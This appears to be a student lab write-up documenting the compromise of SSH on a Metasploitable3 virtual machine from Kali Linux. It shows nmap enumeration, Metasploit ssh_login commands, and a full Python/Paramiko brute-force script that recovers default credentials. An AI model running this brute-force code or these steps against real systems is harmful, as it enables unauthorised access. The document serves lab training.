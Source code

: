 # Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.138
  ![لقطة شاشة 2025-05-02 175018](https://github.com/user-attachments/assets/94942fcc-b660-42e3-8962-667f8791f449)


-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.100.138 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.

![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/557cb2b3-9eec-4926-a4d0-caa940052cd1)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.133
  
![لقطة شاشة 2025-05-02 174402](https://github.com/user-attachments/assets/663c2f26-6c43-4220-9bc8-1f94b2910df6)


***Ping from kali to Metaspotable is Sucessful*** and 
***Ping from Metaspotable to kali is Sucessful*** 


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak and default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```
![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/3e9d89d4-12de-4791-a8d7-7e17c015532c)

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

First: Create a file for usernames and passwords: 

![لقطة شاشة 2025-05-02 181530](https://github.com/user-attachments/assets/103cc98c-6273-4264-be51-b00c8f8f042b)

Then, we start to exploit: 
1. Launch Metasploit:
   ```
   msfconsole
   ```
   ![لقطة شاشة 2025-04-29 230224](https://github.com/user-attachments/assets/2c38ce71-aa71-4c33-abf3-d9fe9f5d8b15)

2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.
-Screen shot shown all the above steps:

![لقطة شاشة 2025-05-02 174003](https://github.com/user-attachments/assets/66bba784-ed18-418d-b479-883ae5f121df)

## Task 1.2 – Compromise Using Custom Script

# Custom SSH Brute-Force Script (Python + Paramiko)

We create the python script using 
```
nano ssh_bruteforce.py
```
This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

```

The script was able to successfully brute-force the SSH credentials. As shown in the last line, it identified the correct username and password combination: vagrant:vagrant.




![لقطة شاشة 2025-05-02 181745](https://github.com/user-attachments/assets/0bd22377-6781-4f6e-8bbc-7b5b4d0df463)


![لقطة شاشة 2025-05-02 181753](https://github.com/user-attachments/assets/d415a8f8-0df2-4979-85a7-52e538e8500d)

---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



